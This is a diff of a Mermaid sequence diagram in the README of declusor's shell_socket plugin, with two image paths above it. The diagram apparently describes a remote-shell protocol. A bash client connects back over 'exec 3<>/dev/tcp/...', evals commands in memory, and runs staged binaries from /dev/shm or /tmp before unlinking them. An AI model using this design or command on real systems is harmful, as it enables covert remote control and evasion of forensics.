

Before and after one commit to othon-hugo/declusor: the diagram in plugins/shell_socket/README.md, drawn with Mermaid. The commit also changed other lines of this file and 13 other files, not shown here.

````diff
--- a/plugins/shell_socket/README.md
+++ b/plugins/shell_socket/README.md
@@ -18,28 +18,28 @@
 ```mermaid
 sequenceDiagram
     autonumber
     participant Server as Declusor Server
     participant FD3 as Remote /dev/tcp FD 3
     participant Bash as Client Execution Loop
 
     Note over Server,Bash: Handshake & Helper Injection
     Server->>FD3: Connect TCP Socket (exec 3<>/dev/tcp/... || exit 1)
-    Server->>FD3: Nonce H0 + \x00 + Helper Bundle (util.sh, file.sh) + \x00
+    Server->>FD3: Nonce H0 + \x00 + Helper Bundle (std.sh) + \x00
     Bash->>Bash: eval helpers in-memory (stdin isolated via </dev/null)
     Bash->>FD3: printf '__DECLUSOR_EOF_%s__\n' "$nonce"
     Server-->>Server: Verify __DECLUSOR_EOF_H0__, Handshake Complete (State: CONNECTED)
 
     loop Command Dispatch Loop
         Server->>FD3: Nonce N_i + \x00 + Command Payload + \x00
         Bash->>Bash: Read null-delimited nonce and data (read -u 3)
         alt In-Memory Shell Command / Script
             Bash->>FD3: eval "$data" </dev/null (streamed via >&3 2>&1)
         else Native Binary Execution
             Bash->>Bash: Stage to writable exec path (/dev/shm -> /tmp -> /var/tmp)
             Bash->>FD3: Execute & stream output (via >&3 2>&1)
             Bash->>Bash: Unlink binary
         end
         Bash->>FD3: printf '__DECLUSOR_EOF_%s__\n' "$nonce"
         Server-->>Server: Detect __DECLUSOR_EOF_N_i__, yield chunks to REPL
     end
 ```
````
